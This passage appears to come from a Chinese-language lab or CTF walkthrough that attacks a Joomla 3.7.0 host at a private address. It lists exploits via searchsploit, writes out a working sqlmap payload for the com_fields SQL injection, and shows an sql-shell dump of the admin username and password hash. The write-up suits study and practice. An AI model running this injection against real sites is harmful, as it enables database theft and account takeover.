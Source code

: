 扫描结果 Joomla 版本为 Joomla 3.7.0

### 搜索漏洞利用模块

```bash
┌──(root💀kali)-[~/192.168.100.8_FTP/joomscan-master]
└─# searchsploit joomla 3.7
------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                             |  Path
------------------------------------------------------------------------------------------- ---------------------------------
Joomla! 3.7 - SQL Injection                                                                | php/remote/44227.php
Joomla! 3.7.0 - 'com_fields' SQL Injection                                                 | php/webapps/42033.txt
Joomla! Component ARI Quiz 3.7.4 - SQL Injection                                           | php/webapps/46769.txt
Joomla! Component com_realestatemanager 3.7 - SQL Injection                                | php/webapps/38445.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Site Scripting                              | php/webapps/43488.txt
Joomla! Component J2Store < 3.3.7 - SQL Injection                                          | php/webapps/46467.txt
Joomla! Component JomEstate PRO 3.7 - 'id' SQL Injection                                   | php/webapps/44117.txt
Joomla! Component Jtag Members Directory 5.3.7 - Arbitrary File Download                   | php/webapps/43913.txt
Joomla! Component Quiz Deluxe 3.7.4 - SQL Injection                                        | php/webapps/42589.txt
------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

有个 SQL 注入 php/webapps/42033.txt 

> 这个路径 之前在 /usu/local/opt/exp 下 新版改路径了  不确定先find查找 下 把里面的 payload 复制出来 直接爆库



```bash
┌──(root💀kali)-[~/192.168.100.8_FTP/joomscan-master]
└─# cat /usr/share/exploitdb/exploits/php/webapps/42033.txt
```

**Payload**

```bash
sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

替换直接使用就行 爆出 后台 **用户 密码** 

```bash
sql-shell> select username,password from joomla.#__users
[06:25:19] [INFO] fetching SQL SELECT statement query output: 'select username,password from joomla.#__users'
[06:25:19] [INFO] retrieved: 'admin'
[06:25:20] [INFO] retrieved: '$2y$10$UI/eNzVj3QoFqxq8yVG2p.lc4jBfRJgcRqGGaoHBaq2JvRh4h3//y'
select username,password from joomla.#__users [1]:
[*] admin, $2y$10$UI/eNzVj3QoFqxq8yVG2p.lc4jBfRJgcRqGGaoHBaq2JvRh4h3//y
```
